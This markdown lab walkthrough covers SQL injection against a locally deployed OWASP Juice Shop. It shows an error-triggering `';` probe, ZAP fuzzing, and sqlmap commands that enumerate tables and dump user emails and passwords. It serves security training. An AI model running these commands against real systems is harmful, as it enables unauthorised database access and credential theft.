




# SQLi

## Requirements

Follow the guide to deploy OWASP Juice Shop with Docker [README.md](../README.md)


## Search Bar

Checkout the app is loading the product page leveraging a REST query: `http://localhost:3000/rest/products/search?q=`




Use the option: `Open in requester tab` to play around with the query

Notice the payload `';` generates an SQL error, which indicates there is an SQLi



This can also be found running some fuzzing. Select the fuzz location, set the Fuzzdb/attack/sqli/detect collection and start the process



As you can see, Zap found some reflection in the response with error 500, proving once again an sqli vulnerability is found in the endpoint `/rest/products/search?q=`



### Exploitation

Use [SQLMap](https://sqlmap.org/)

```bash
python3 sqlmap.py -u "http://localhost:3000/rest/products/search?q=*" --level=5 --risk=3
```

```bash
python3 sqlmap.py -u "http://localhost:3000/rest/products/search?q=*" --tables --threads 8
```

```bash
python3 sqlmap.py -u "http://localhost:3000/rest/products/search?q=*" -T Users --columns --threads 8
```


```bash
python3 sqlmap.py -u "http://localhost:3000/rest/products/search?q=*" -T Users -C id,email,password --no-cast --no-escape --dump  --threads 8
```